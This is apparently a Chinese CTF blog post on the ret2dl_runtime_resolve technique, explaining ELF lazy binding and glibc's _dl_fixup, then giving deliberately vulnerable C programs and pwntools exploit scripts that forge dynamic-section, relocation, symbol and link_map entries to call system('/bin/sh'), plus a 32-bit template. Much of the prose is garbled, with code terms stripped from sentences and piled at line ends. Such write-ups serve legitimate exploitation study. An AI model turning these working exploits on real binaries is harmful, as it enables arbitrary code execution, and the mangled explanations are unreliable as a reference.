





是利用elf文件的延迟绑定技术，达到攻击目的的一种技术`_dl_runtime_resolve`

程序在执行时，程序结构体的地址位于的第二项，函数地址位于的第三项`link_map``got表``_dl_runtime_resolve``got表`


[函数第一次调用前
](https://rot-will.github.io/img/blog_img/ret2dl_runtime_resolve/pwn-栈-resolve.jpg)


在使用导出函数时，会设置函数在中对应的项为函数真实地址`_dl_runtime_resolve``got表`

如果程序开启了保护，那么会在加载程序的阶段，将中对应函数的真实地址填入`PIE``got表`

```c
_dl_runtime_resolve` 在文件中，是一段汇编代码，通过栈传入两个参数，第一个参数是当前程序的，第二个参数是函数在，函数首先保存寄存器的值，然后调用函数，最后还原寄存器，并执行函数`sysdeps/架构/dl-trampoline.h``link_map结构体的地址``.rel.plt表中的索引值``_dl_fixup
_dl_fixup`在文件中，传入两个参数,参数与的参数相同，函数先通过获取程序中各种段的地址，经过各种检测后，通过从中搜索符号，并返回符号地址，再经过各种检测后，如果未开启绑定，就直接返回符号地址，否则执行函数，设置中的数据`elf/dl-runtime.c``_dl_runtime_resolve``link_map``_dl_lookup_symbol_x``link_map.l_scope``elf_machine_fixup_plt``got表
/* 获取各种段的地址
    这些段的地址不是直接储存在 l_info中，而是储存在程序的 dynamic段中 */
const ElfW(Sym) *const symtab = (const void *) D_PTR (l, l_info[DT_SYMTAB]);
    // 获取 dnysym 表地址
const char *strtab = (const void *) D_PTR (l, l_info[DT_STRTAB]);
    // 获取 dnystr 表地址
const PLTREL *const reloc = (const void *) (D_PTR (l, l_info[DT_JMPREL]) + reloc_offset);
    // 获取函数在 rel.plt 中对应成员的地址
const ElfW(Sym) *sym = &symtab[ELFW(R_SYM) (reloc->r_info)];
    // 获取函数在 dynsym 中对应成员的地址
const ElfW(Sym) *refsym = sym;
void *const rel_addr = (void *)(l->l_addr + reloc->r_offset);
    // 获取函数在 got 中对应成员的地址

/* 调用_dl_lookup_symbol_x */
result = _dl_lookup_symbol_x (strtab + sym->st_name, l, &sym, l->l_scope,version, ELF_RTYPE_CLASS_PLT, flags, NULL);
    // strtab+sym->st_name 获取符号名称

/* rel.plt结构体(函数重定向的信息)
Elf32_Rela
	offset 指向GOT表的指针 4字节
	info 关于导入符号的信息 4字节
		当重定向函数时 info的第一个字节为 0x07
		info>>8 为函数符号在.dnysym 中的下标
	addend 浮动数值 4字节
		通过 &.dnysym[info]+addend 为表示函数的 .dnysym中的成员
		
Elf64_Rela
	offset 指向GOT表的指针 8字节
	info 关于导入符号的信息 8字节
		当重定向函数时 info的 前4字节 为 0x07
		info的后4字节为函数符号在 .dnysym 中的下标
	addend 浮动数值 8字节
		通过 &.dnysym[info]+addend 为表示函数的 .dnysym中的成员
*/

/* dynsym结构体 
Elf32_Sym
	name 对于.dnystr 的偏移 4字节
	value 4字节
		如果这个符号被导出，则存有这个导出函数的虚拟地址，否则为NULL
		当成员是用来描述函数时 value为0
	size 4字节
		符号大小
		当成员是用来描述函数时 size为0
	info 符号的信息 1字节
		当成员是用来描述函数时 info为0x12
	other 1字节
		当成员是用来描述函数时 other为0
	shndx 2字节
		绑定section的索引号
		当成员是用来描述函数时 shndx 为0

Elf64_Sym
	name 对于.dnystr的偏移 4字节
	info 符号的信息 1字节
		当成员是用来描述函数时 info为0x12
	other 显示形式 1字节
		描述函数时 other为0
	shndx 绑定的section的索引号 2字节
		描述函数时 shndx 为0
	value 8字节
		如果这个符号被导出，则存有这个导出函数的got地址-8，否则为NULL
		当成员是用来描述函数时 value为0
	size 8字节
		符号大小
		当成员是用来描述函数时 size为0
*/

/* dynamic结构体
Elf32_Dyn
	tag 指定结构用来描述的段类型  4字节
	val/ptr  4字节
		当用来描述某个段的地址时使用 ptr
		其余情况使用val

Elf64_Dyn
	tag 指定结构用来描述的段类型  4字节
	val/ptr 8字节
		当用来描述某个段的地址时使用 ptr
		其余情况使用val
tag可选值：
    #define DT_NULL 0              标记动态部分的结束
    #define DT_NEEDED 1            所需库的名称
    #define DT_PLTRELSZ 2          PLT 重定位的字节大小
    #define DT_PLTGOT 3            处理器定义的值
    #define DT_HASH 4              符号哈希表地址
    #define DT_STRTAB 5            字符串表地址
    #define DT_SYMTAB 6            符号表地址
    #define DT_RELA7               Rela relocs地址
    #define DT_RELASZ 8            Rela reloc 的总大小
    #define DT_RELAENT 9           一个 Rela reloc 的大小
    #define DT_STRSZ 10            字符串表的大小
    #define DT_SYMENT 11           一个符号表的大小入口
    #define DT_INIT 12             init 函数的地址
    #define DT_FINI 13             储存fini函数的指针地址(会在exit中执行)
    #define DT_SONAME 14           共享对象的名称
    #define DT_RPATH 15            库搜索路径（不推荐使用）
    #define DT_SYMBOLIC 16         从这里开始符号搜索
    #define DT_REL 17              Rel reloc 的地址
    #define DT_RELSZ 18            Rel reloc 的总大小
    #define DT_RELENT 19           一个 Rel reloc 的大小
    #define DT_PLTREL 20           PLT 中的 reloc 类型
    #define DT_DEBUG 21            用于调试；unspecified
    #define DT_TEXTREL 22          Reloc 可能会修改 .text
    #define DT_JMPREL 23           PLT relocs 的地址
    #define DT_BIND_NOW 24         对象的进程重定位
    #define DT_INIT_ARRAY 25       带有 init fct 地址的数组
    #define DT_FINI_ARRAY 26       带有 fini fct 地址的数组
    #define DT_INIT_ARRAYSZ 27     以字节为单位的大小DT_INIT_ARRAY
    #define DT_FINI_ARRAYSZ 28     DT_FINI_ARRAY 的字节大小
    #define DT_RUNPATH 29          库搜索路径
    #define DT_FLAGS 30            正在加载的对象的标志
    #define DT_ENCODING 32         编码开始range
    #define DT_PREINIT_ARRAY 32    带有 preinit fct 地址的数组
    #define DT_PREINIT_ARRAYSZ 33  DT_PREINIT_ARRAY 的字节大小
    #define DT_NUM 34              使用的数量
    #define DT_LOOS 0x6000000d     操作系统特定的开始
    #define DT_HIOS 0x6ffff000     操作系统特定的结束
    #define DT_LOPROC 0x70000000   处理器特定的开始
    #define DT_HIPROC 0x7fffffff   处理器特定的结束
*/

/* dnystr段结构 
    开头第一个字节为\x00,后面储存的每个符号的名称，以\x00结尾
*/
```

_dl_lookup_symbol_x`在文件中，传入7个参数，分别是 ，，，(里面是保存了用于引用的信息)，，，，(不查找这个文件中的符号) ，遍历中的结构体，排除跳过的，使用 从剩余的中搜索符号，当搜索到符号时，返回结构体`elf/dl-lookup.c``符号名称``link_map``符号在dnysym中对应成员的地址``link_map引用的符号表``link_map结构体``版本``符号类型``符号版本信息``跳过的link_map``scope``link_map``do_lookup_x``link_map``{符号地址,当前link_map}
do_lookup_x`在文件中，传入13个参数，主要流程为，循环遍历当前表示的文件及其引用的文件中的符号，通过遍历对比文件中的符号名称与传入的符号名称，来搜索符号，当搜索到符号时，返回 `elf/dl-lookup.c``link_map``_dl_lookup_symbol_x``{符号地址,符号所属link_map}

## 修改dynamic

> 从 中的代码中可以看出，程序获取段地址，是通过中储存的结构体获取的
> 原本中的字段储存的是 程序的地址，程序在进行绑定操作时，会通过获取符号名称
> 当我们将中的的字段储存的数据修改为我们伪造的地址时，
> 程序在第一次调用库中的函数时，通过的绑定操作，从我们伪造的中获取符号名称， 从库中导出对应的符号,并执行我们构造的函数
> 这种利用方法需要程序关闭了 ，否则 段不可写，也就无法达到攻击的效果了`_dl_fixup``dynamic段``dynamic段``DT_STRTAB``ptr``dnystr段``dnystr段``dynamic段``DT_STARTAB``ptr``dnystr段``_dl_runtime_resolve``dnystr段``ROLRO保护``.dynamic`

```
/* 样例代码 */
#include<stdio.h>
#include<stdlib.h>
char cache[0x30]={};
long long int state=0;
int main(){
    setvbuf(stdout,0,2,0);
    setvbuf(stdin,0,1,0);
    setvbuf(stderr,0,2,0);
    char c[0x40]={};
    read(0,cache,0x50);
    c[read(0,c,0x10)-1]=0;
    long long int *a=atoi(c);
    c[read(0,c,0x10)-1]=0;
    *a=atoi(c);
    exit(state);
}
/*编译命令
    gcc -z norelro -no-pie pwn_resolve.c -o pwn_resolve
*/
```


[main函数代码
](https://rot-will.github.io/img/blog_img/ret2dl_runtime_resolve/pwn-栈-resolve-1.jpg)


[bss段布局
](https://rot-will.github.io/img/blog_img/ret2dl_runtime_resolve/pwn-栈-resolve-2.jpg)


[dynamic段布局
](https://rot-will.github.io/img/blog_img/ret2dl_runtime_resolve/pwn-栈-resolve-3.jpg)


[dynstr段布局
](https://rot-will.github.io/img/blog_img/ret2dl_runtime_resolve/pwn-栈-resolve-4.jpg)


```
"""exp思路
    设置 dynamic段 中 dynstr段 的地址为  bss段 中构造的 "\x00system\x00" 字符串的地址
    并设置 state 为 bss段 中构造的 "/bin/sh" 字符串的地址
    在执行 exit 函数时 经过 _dl_runtime_resolve 就会搜索 system 函数并执行 system("/bin/sh")
"""
from pwn import *

p=process('./pwn_resolve')
payload=b'/bin/sh\x00'+"system\x00"
payload=payload.ljust(0x30)+p64(0x4033c0)
p.sendline(payload)
pause()
p.sendline(str(0x4031e0))
pause()
p.sendline(str(0x4033c7))
p.interactive()
```

## 伪造reloc_offset

> 从中的代码可以看出，程序获取与函数对应的 是通过参数
> 获取对应的 是通过 ，获取对应的名称是通过
> 所以只要伪造了 参数，就可以伪造，进而伪造 与 中对应的名称
> 然后就会调用我们伪造的中的函数`_dl_fixup``rel.plt表项``reloc``reloc_offset``dnysym表项``sym``reloc.r_info``dnystr``sym``reloc_offset``reloc``sym``dnystr``dnystr`

```
/* 样例代码 */
#include<stdio.h>
#include<stdlib.h>
char cache[0x50]={};
long long int state=0;
int main(){
    setvbuf(stdout,0,2,0);
    setvbuf(stdin,0,1,0);
    setvbuf(stderr,0,2,0);
    char c[0x40]={};
    read(0,cache,0x70);
    read(0,c,0x70);
}
/*编译命令
    gcc -fno-stack-protector -no-pie pwn_resolve.c -o pwn_resolve
*/
```


[main函数代码
](https://rot-will.github.io/img/blog_img/ret2dl_runtime_resolve/pwn-栈-resolve1.jpg)


[main函数栈布局
](https://rot-will.github.io/img/blog_img/ret2dl_runtime_resolve/pwn-栈-resolve1-1.jpg)


[bss段布局
](https://rot-will.github.io/img/blog_img/ret2dl_runtime_resolve/pwn-栈-resolve1-2.jpg)


[.dynamic段布局
](https://rot-will.github.io/img/blog_img/ret2dl_runtime_resolve/pwn-栈-resolve1-3.jpg)


[dynsym段布局
](https://rot-will.github.io/img/blog_img/ret2dl_runtime_resolve/pwn-栈-resolve1-4.jpg)


[dynstr段布局
](https://rot-will.github.io/img/blog_img/ret2dl_runtime_resolve/pwn-栈-resolve1-5.jpg)


[rel.plt段布局
](https://rot-will.github.io/img/blog_img/ret2dl_runtime_resolve/pwn-栈-resolve1-6.jpg)

rel表项`需要构造 {对应地址(8字节), 中的索引值(4字节), 用来表示函数的(4字节), 用处未知一般为(4字节)}`got表``sym表``7``addend``0
sym表项`需要构造 {中的索引值(4字节), 用来表示函数的(1字节), 描述函数时为(1字节), 描述函数时为0(2字节), 在函数被导出前为(4字节), 描述函数时为(4字节)}`dnystr``12``other``0``shndx``value``0``size``0
dnystr表项`构造时只需要在字符串结尾使用截断`\x00

```

"""exp思路
    构造 全局变量cache ,将 sym表项 与 rel表项 ，dynstr表项 都伪造好，
    通过传入一个较大的 rel.plt表 索引值,
    使其索引到我们伪造的表项,进而导出 system 函数，并执行 system 函数
  需要计算rel的索引值和sym的索引值，还有system字符串在dynstr的索引值
"""
from pwn import *
rdi=0x00000000004012a3
p=process('./pwn_resolve')
sym=p32(0x4040b9-0x4004a0)+p64(12)+p32(0)*3 # 0x4004a0为.dynstr表的地址 0x4040b9为system字符串位置
rel=p64(0x404018)+p32(7)+p64((0x404088-0x4003e0)//0x18)+p32(0) # 0x4003e0为sym表的地址 0x404088为伪造的sym表项的地址
payload=b"/bin/sh\x00"+sym+rel+"\x00system\x00"
payload=payload.ljust(0x50)+p64(0x4033c0)
p.send(payload)
pause()
p.send(b'a'*0x40+b'b'*8+p64(rdi)+p64(0x404080)+p64(0x401020)+p64((0x4040a0-0x4005a8)//0x18)) # 0x4005a8是rel表的地址 0x4040a0为伪造的rel表项的地址
p.interactive()
```

## 伪造link_map

> 这种方法需要先获取描述当前程序的结构体的成员中储存的数据
> 想要获取成员中的数据，至少需要达到任意地址读取，这种情况下已经可以泄露libc的地址
> 而想要利用则需要控制程序流程
> 这种情况下，已知地址，且可以控制程序，直接执行就可以了
> 想要利用还需要 至少的空间，
> 这种情况下，想要伪造,达到的目的，利用难度较高
> 如果作为栈溢出的利用`link_map``scope``scope``ret2resolve``libc``system("/bin/sh");``link_map``0x400``link_map``ret2dlresolve`

> 以下是我尝试伪造的代码,比较极端地允许输入任意长度的数据`link_map`

```
#include<stdio.h>
#include<stdlib.h>
char a[4096]={};
int main(){
    char b[0x20]={};
    printf("start\naddr: ");
    printf("%x\n",(int)a);
    gets(b);
    gets(a);
    puts("123123");

}
/*编译命令
    gcc -fno-stack-protector -no-pie 1.c
*/
from pwn import *
e=ELF('./a.out')
p=process('./a.out')
gdb.attach(p,'bp 0x401201')
p.readuntil('addr: ')
d=int(p.readline(),16)
fake_dyn=d+0x300
fake_map=p64(0)+p64(d)+p64(fake_dyn)+p64(0)+p64(0)+p64(d)+p64(0)+p64(d)
fake_info=p64(0)+p64(fake_dyn)+p64(0x403f00)+p64(fake_dyn+0x10)+p64(0)+p64(fake_dyn+0x20)+p64(fake_dyn+0x30)+p64(fake_dyn+0x40)+p64(0x403f40)+\
        p64(0x403f50)+p64(0x403ec0)+p64(0x403ed0)+p64(0x403e30)+p64(0x403e40)+p64(0)*6+p64(0x403f10)+p64(0x403ee0)+p64(0)+p64(fake_dyn+0x50)+p64(0)+p64(0x403e50)+\
        p64(0x403e70)+p64(0x403e60)+p64(0x403e80)+p64(0)*6+p64(0x403f70)+p64(0x403f60)+p64(0)*14+p64(0)*25+p64(0x403e90)
seg=d+0x500
got=seg
strtab=seg+0x100
symtab=seg+0x200
reltab=seg+0x300
jmprel=seg+0x400
fake_map=fake_map+fake_info
fake_map=fake_map.ljust(0x300,b'\x00')
print(hex(len(fake_map)))
dyn_sym=p64(1)+p64(24)+p64(3)+p64(got)+p64(5)+p64(strtab)+p64(6)+p64(symtab)+p64(7)+p64(reltab)+p64(0x17)+p64(jmprel)
dyn_sym=dyn_sym.ljust(0x98,b'\x00')
fake_map=fake_map+dyn_sym
nnn=input('>>>')
fake_map=fake_map+p64(nnn)
#因为只是测试，所以直接用gdb获取scope的值，然后输入就可以了
fake_map=fake_map.ljust(0x500,b'\x00')

got_d=p64(0x405068)
got_d=got_d.ljust(0x100,b'\x00')

strtab_d=b'\x00'+b"system\x00"
strtab_d=strtab_d.ljust(0x100,b'\x00')

symtab_d=p64(0)*3+p32(1)+p64(0x12)+p64(0)+p32(0)
symtab_d=symtab_d.ljust(0x100,b'\x00')

reltab_d=p64(0)
reltab_d=reltab_d.ljust(0x100,b'\x00')

jmprel_d=p64(got)+p32(7)+p64(1)+p32(1)
jmprel_d=jmprel_d.ljust(0x100,b'\x00')

fake_map=fake_map + got_d + strtab_d + symtab_d + reltab_d + jmprel_d
bin_sh=len(fake_map)+0x40
fake_map=fake_map.ljust(bin_sh,b'\x00')
fake_map=fake_map+b'/bin/sh\x00'

p.sendline(b'a'*0x20+b'b'*8+p64(0x000000000040101a)+p64(0x0000000000401273)+p64(d+bin_sh)+p64(0x401026)+p64(d)+p64(0))
p.sendline(fake_map)
p.interactive()
```

---

## 模板

上面主要用到的都是自己编写的东西因此我们这里要区分一下32位和64位的区别因此我们这里先链接一下模板 这里就是吧所以需要的地址位改掉就可以成功了这个是wiki的思路

### x32

```python
#!/usr/bin/python
#coding:utf-8

from pwn import *
elf = ELF('bof')

offset = 112
read_plt = elf.plt['read']
write_plt = elf.plt['write']

ppp_ret = 0x08048619 # ROPgadget --binary bof --only "pop|ret"
pop_ebp_ret = 0x0804861b
leave_ret = 0x08048458 # ROPgadget --binary bof --only "leave|ret"

stack_size = 0x800
bss_addr = 0x0804a040 # readelf -S bof | grep ".bss"
base_stage = bss_addr + stack_size

r = process('bof')

r.recvuntil('Welcome to XDCTF2015~!\n')
payload = 'A' * offset
payload += p32(read_plt)
payload += p32(ppp_ret)
payload += p32(0)
payload += p32(base_stage)
payload += p32(100)
payload += p32(pop_ebp_ret)
payload += p32(base_stage)
payload += p32(leave_ret)
r.sendline(payload)

cmd = "/bin/sh"
plt_0 = 0x08048380 # objdump -d -j .plt bof
rel_plt = 0x08048330 # objdump -s -j .rel.plt bof
index_offset = (base_stage + 28) - rel_plt # base_stage + 28指向fake_reloc，减去rel_plt即偏移
write_got = elf.got['write']
dynsym = 0x080481d8
dynstr = 0x08048278
fake_sym_addr = base_stage + 36
align = 0x10 - ((fake_sym_addr - dynsym) & 0xf)
fake_sym_addr = fake_sym_addr + align
index_dynsym = (fake_sym_addr - dynsym) / 0x10
r_info = (index_dynsym << 8) | 0x7
fake_reloc = p32(write_got) + p32(r_info)
st_name = (fake_sym_addr + 16) - dynstr
fake_sym = p32(st_name) + p32(0) + p32(0) + p32(0x12)

payload2 = 'AAAA'
payload2 += p32(plt_0)
payload2 += p32(index_offset)
payload2 += 'AAAA'
payload2 += p32(base_stage + 80)
payload2 += 'aaaa'
payload2 += 'aaaa'
payload2 += fake_reloc # (base_stage+28)的位置
payload2 += 'B' * align
payload2 += fake_sym # (base_stage+36)的位置
payload2 += "system\x00"
payload2 += 'A' * (80 - len(payload2))
payload2 += cmd + '\x00'
payload2 += 'A' * (100 - len(payload2))
r.sendline(payload2)
r.interactive()
```

---

## 总结

### 修改reloction

调用流程：这里用write来当例子

write@plt -> plt0+write_index->plt0+reloction(write@got+r_info)->plt0+write@got+r_info(dynsm下标<<8| 0x7)->plt0+write@got+(dynsm下标<<8| 0x7)

dynsym->strname+dynstr==write的字符串

因此我们就可以伪造这个字符串指向我们自己的system函数了

